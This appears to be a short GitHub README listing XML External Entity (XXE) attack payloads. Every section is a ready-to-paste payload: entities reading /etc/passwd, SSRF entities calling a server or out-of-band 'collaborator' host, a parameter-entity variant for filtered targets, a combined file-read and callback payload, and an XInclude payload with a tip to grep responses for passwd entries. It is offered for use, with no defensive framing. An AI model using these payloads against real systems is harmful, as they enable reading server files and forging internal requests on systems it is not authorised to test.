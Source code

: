 # My xxe payload
Coded by: RobinTrigon | 3rr0r-404
-----------------------------------------------------------------------------------------------------------------------------------------------------------
### Exploiting XXE using external entities to retrieve files
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```
### XXE to perform SSRF attacks
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://sarver-ip/"> ]>
```
### XXE TO SSRF
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://colabrator/"> ]>

```
### Entities are not allowed
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://colabrator/"> ]>

```
### Entities are not allowed
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://collabrator"> %xxe; ]> //dont call xxe

```
### must try
```
<!DOCTYPE r [<!ELEMENT r ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd"><!ENTITY sp SYSTEM "https://collabretor/">]><r>&xxe;&sp;</r>
```

### Peram Based
#### Just replace any peramiter with it and egrep "root:x|daemon:x"
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

